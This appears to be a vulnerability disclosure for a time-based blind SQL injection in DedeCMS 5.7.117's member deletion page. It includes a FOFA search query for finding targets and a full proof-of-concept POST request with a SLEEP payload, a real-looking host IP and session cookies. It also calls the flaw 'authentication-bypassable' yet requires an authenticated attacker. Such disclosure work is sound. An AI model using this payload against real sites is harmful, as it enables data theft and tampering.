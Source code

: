 # dede-sql
A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.
dedecms-sql
"/uploads/dede/member_do.php"
A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.

fofa：app="dedecms"

Vulnerability PoC (Proof of Concept)：



POST /dede/member_do.php HTTP/1.1
Host: 154.217.245.237:321
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Origin: http://154.217.245.237:321
Accept-Encoding: gzip, deflate
Referer: http://154.217.245.237:321/dede/member_do.php?dopost=delmembers
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=h9tt2vjvirml3asna1ekq04hv6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=037964ffa0771fbf; DedeLoginTime=1747393431; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=a748faa5d92cfdc5; _csrf_name_9db0aa8a=759e15fd9a6d4676714db2b1ea3455b6; _csrf_name_9db0aa8a1BH21ANI1AGD297L1FF21LN02BGE1DNG=93e9f7a333113b48; ENV_GOBACK_URL=%2Fdede%2Fmember_main.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 147

fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314&safecode=29196a09b90ce5dd1bbe7314&imageField1.x=42&imageField1.y=16
![image](https://github.com/user-attachments/assets/bfa264f2-5ac4-492a-ab05-607bb80230c3)




Vulnerability Type: Authentication-bypassable SQL Injection (Time-based Blind)

A SQL Injection vulnerability exists in DedeCMS version 5.7.117 in the backend script member_do.php. The id parameter used in the "delete member" (dopost=delmembers) functionality is insufficiently sanitized. Although a preg_replace is applied (preg_replace("#[^0-9]#", "", $id)), the variable is used before sanitization within SQL queries, leading to a time-based blind SQL injection.

An authenticated attacker can exploit this vulnerability by sending a crafted POST request containing malicious SQL in the id parameter, such as:

POST /dede/member_do.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
...
fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314

The SQL injection allows arbitrary query execution in the database context, enabling data extraction or service disruption via sleep-based attacks. The vulnerability resides in this code snippet:

$row = $dsql->GetOne("SELECT * FROM `#@__member` WHERE mid='$id' LIMIT 1");
...
$rs = $dsql->ExecuteNoneQuery2("DELETE FROM `#@__member` WHERE mid='$id' LIMIT 1");



Impact:
This vulnerability allows authenticated attackers to execute arbitrary SQL queries in the backend, leading to information disclosure, data manipulation, or denial of service.
![image](https://github.com/user-attachments/assets/38e34468-9ddf-4e60-a9b2-df4912a2e7ec)
<img width="553" alt="image" src="https://github.com/user-attachments/assets/81360231-cd23-4192-a412-9dac7f959eca" />


